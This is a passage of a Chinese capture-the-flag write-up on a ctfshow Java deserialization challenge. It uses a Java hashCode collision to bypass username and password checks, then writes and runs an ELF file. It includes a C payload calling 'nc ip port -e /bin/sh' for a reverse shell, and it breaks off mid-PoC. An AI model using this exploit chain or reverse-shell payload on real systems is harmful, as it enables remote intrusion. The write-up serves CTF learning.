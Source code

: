```java  
    }    
    break;    
}  
```  
`shellcode`  
`private static  String shellCode=&#34;chmod &#43;x ./&#34;&#43;OBJECTNAME&#43;&#34; &amp;&amp; ./&#34;&#43;OBJECTNAME;`  
会赋予`ctfshow`这个文件执行权限，并且执行  
现在的思路就是写入一个`elf`文件，并且执行  
构造poc  
本地写一个`c`文件程序  
```c  
#include&lt;stdlib.h&gt;    
 int main() {    
    system(&#34;nc ip port -e /bin/sh&#34;);    
    return 0;    
}  
```  
编译一下`gcc shellcode.c -o shellcode`  
接着再把前四个字节删掉  
利用反序列化写入，在此之前，还有几个`if`条件需要绕过  
```java  
if(var3 instanceof  User){    
	if(OBJECTNAME.equals(var3.getUsername())){    
		throw  new RuntimeException(&#34;object unserialize error&#34;);    
	}    
	if(SECRET.equals(var3.getPassword())){    
		throw  new RuntimeException(&#34;object unserialize error&#34;);    
	}    
	if(var3.equals(admin)){    
		Runtime.getRuntime().exec(shellCode);    
```  
实例化传入的`username`和`password`不能是`ctfshow`和`123456`，但是`hash`比较的时候又相等。  
这个时候需要用到`Java`里的`hash`碰撞  
```java  
def hashcode(val):  
    h=0  
    for i in range(len(val)):  
        h=31 * h &#43; ord(val[i])  
    return h   
t=&#34;ct&#34;  
#t=&#34;12&#34;  
for k in range(1,128):  
    for l in range(1,128):  
        if t!=(chr(k)&#43;chr(l)):  
            if(hashcode(t)==hashcode(chr(k)&#43;chr(l))):  
                print(t,chr(k)&#43;chr(l))  
  
```  
得到  
`ct,dU 12,0Q`  
构造完整的`Poc`  
```java  
package com.ctfshow;    
    
import com.ctfshow.entity.User;    
    
import java.io.*;    
import java.util.Base64;    
    
public class Vuln {    
    public static void main(String[] args) throws Exception{    
        User user = new User(&#34;dUfshow&#34;,&#34;0Qahua&#34;);    
    
```